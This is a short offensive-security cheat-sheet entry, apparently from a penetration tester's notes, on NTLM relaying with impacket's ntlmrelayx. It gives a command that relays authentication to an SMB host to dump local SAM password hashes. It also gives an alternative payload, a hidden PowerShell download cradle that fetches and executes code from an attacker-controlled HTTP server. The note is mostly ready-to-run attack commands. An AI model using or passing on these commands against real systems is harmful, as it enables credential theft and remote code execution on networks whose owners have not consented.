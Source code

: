 ## [[NTLM Relaying]]
Run ntlmrelayx or responder.
By default (not provided -c) it will do `secretsdump` to dump the local SAM hashes
``````sh
proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://10.10.17.68 -smb2support --no-http-server --no-wcf-server

# alternatively provide a command with:
-c
'powershell -nop -w hidden -c "iex (new-object net.webclient).downloadstring(\"http://10.10.17.231:8080/b\")"'
``````

```meta
requirements: 
results: 
oss: #linux
source: https://github.com/SecureAuthCorp/impacket/tree/master/impacket/examples/ntlmrelayx
description: NTLM relay tool
undetected: 
```